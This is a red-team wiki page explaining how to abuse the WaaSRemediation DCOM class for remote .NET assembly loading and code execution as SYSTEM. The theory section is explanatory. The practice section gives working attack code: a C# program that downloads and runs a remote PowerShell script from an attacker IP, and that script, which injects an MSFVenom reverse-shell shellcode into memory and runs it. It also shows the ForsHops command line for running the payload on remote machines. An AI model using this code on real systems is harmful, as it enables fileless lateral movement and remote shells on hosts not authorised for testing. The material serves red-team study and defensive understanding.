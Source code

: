 # Remote .NET Assembly Loading through WaaSRemediation DCOM Abuse

## Theory

The **`IDispatch`** interface exposed in the **`WaaSRemediation`** COM class, can be manipulated for trapped COM object abuse and .NET code execution. **`WaaSRemediation`** is implemented in the **`WaaSMedicSvc`** service, which executes as a [**Protected Process Light (PPL)**](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process) **svchost.exe** process in the context of NT AUTHORITY\SYSTEM. This technique was discovered In February 2025 by James Forshaw ([@tiraniddo](https://x.com/tiraniddo)) from Google Project Zero&#x20;

Fore more information about [COM ](https://learn.microsoft.com/en-us/windows/win32/com/com-technical-overview)and DCOM, check [this page](../../pivoting/dcom.md).

#### Trapped COM Objects

A trapped COM object is a bug class in which a COM client instantiates a COM class in an out-of-process DCOM server, where the client controls the COM object via a marshaled-by-reference object pointer. Depending on the condition, this control vector may present security-related logic flaws.

#### IDispatch

The [IDispatch](https://learn.microsoft.com/en-us/windows/win32/api/oaidl/nn-oaidl-idispatch) interfaces  facilitates late binding to methods and properties of COM objects.  Unlike traditional COM clients that use compile-time interface definitions, late binding allows clients to discover and call methods dynamically at runtime

The [IDispatch](https://learn.microsoft.com/en-us/windows/win32/api/oaidl/nn-oaidl-idispatch) interface support the following methods:

* `GetTypeInfoCount` : returns 0 or 1 if the object provides type information.
* `GetTypeInfo` : Provides access to an `ITypeInfo` interface for retrieving type information of an object.
* `GetIDsOfNames` : takes human-readable names (such as "Workbooks") and returns a number (known as a dispatch identifier or dispID) that maps to the object's associated method or property.
* `Invoke` : Once you have the dispID number, you use Invoke to call the method or retrieve property data.

Via `ITypeLib` from `GetTypeInfo->ITypeInfo->GetContainingTypeLib` ,a client can retrieve type information of a COM class that use a type library.

In our case, the, **`WaaSRemediation`** references the type library **`WaaSRemediationLib`,** which in turn references **`stdole`** (OLE Automation). **`WaaSRemediationLib`** utilizes two COM classes from that library, **`StdFont`** and **`StdPicture`**. By performing [COM Hijacking](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/) on the **`StdFont`** object via modifying its **`TreatAs`** registry key, the class will point to another COM class of our choosing, such as **`System.Object`** in the .NET Framework.

.NET objects are interesting to us because of **`System.Object`**’s **`GetType`** method. Through **`GetType`,** we can perform .NET reflection to eventually access **`Assembly.Load`**. While **`System.Object`** was chosen, this type happens to be the root of the type hierarchy in .NET. Therefore, any .NET COM object could be used.

#### **AllowDCOMReflection**

To leverage this technique, we need to enable the `AllowDCOMReflection` (DWORD) value under the `HKLM\Software\Microsoft\.NetFramework` registry key.  This setting allows arbitrary reflection to call any .NET method, bypassing the mitigations in MS14-009 that typically prevent .NET reflection over DCOM.

#### **OnlyUseLatestCLR**

To ensure the correct version of the .NET CLR is loaded, we must also enable the `OnlyUseLatestCLR` (DWORD) value under the `HKLM\Software\Microsoft\.NetFramework` registry key.  This setting ensures the latest .NET CLR (version 4) is loaded, as the default is version 2 unless explicitly enabled.

## Practice

{% tabs %}
{% tab title="Windows" %}
#### ForsHops

To leverage the previously explained method, we can use the [ForsHops](https://github.com/xforcered/ForsHops) (C#) proof-of-concept.

```
forshops.exe [target machine] [c:\\path\\to\\assembly\\to\\load]
```

#### POC Demo

In this demo, we will use the below C# code that loads a[ custom PowerShell runspace](https://red.infiltr8.io/redteam/weapon/code-execution/whithout-powershell) to retrieve and execute a second-stage payload directly in memory.

{% code title="GetRev.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

class Program
{
    static void Main()
    {
        string command = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.206.126/run.txt')";

        using (Runspace runspace = RunspaceFactory.CreateRunspace())
        {
            runspace.Open();
            using (PowerShell ps = PowerShell.Create())
            {
                ps.Runspace = runspace;
                ps.AddScript(command);

                foreach (var result in ps.Invoke())
                {
                    Console.WriteLine(result);
                }
            }
        }
    }
}
```
{% endcode %}

After compiling our malicious .NET as GetRev.exe,  we host the following run.txt file on our attacking machine:

{% code title="run.txt" %}
```powershell
function potatoes {
Param ($cherries, $pineapple)
$tomatoes = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$turnips=@()
$tomatoes.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$turnips+=$_}}
return $turnips[0].Invoke($null, @(($tomatoes.GetMethod('GetModuleHandle')).Invoke($null, @($cherries)), $pineapple))
}
function apples {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
$cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

# MSFVenom reverse Shell
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x48,0x31,0xd2,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x50,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x4d,0x31,0xc9,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x1,0xbb,0xc0,0xa8,0xce,0x7e,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
$parsnips =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)  
```
{% endcode %}

Finally we can use the [ForsHops](https://github.com/xforcered/ForsHops) (C#) proof-of-concept to execute GetRev.exe assembly on a remote computer:

<figure><img src="../../../.gitbook/assets/ComToDot.gif" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="UNIX-Like" %}
At time of writting this technique can't be performed from an UNIX-based host.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.ibm.com/think/news/fileless-lateral-movement-trapped-com-objects" %}

{% embed url="https://mohamed-fakroud.gitbook.io/red-teamings-dojo/abusing-idispatch-for-trapped-com-object-access-and-injecting-into-ppl-processes" %}

{% embed url="https://googleprojectzero.blogspot.com/2025/01/windows-bug-class-accessing-trapped-com.html" %}

{% embed url="https://nolongerset.com/the-idispatch-interface/" %}
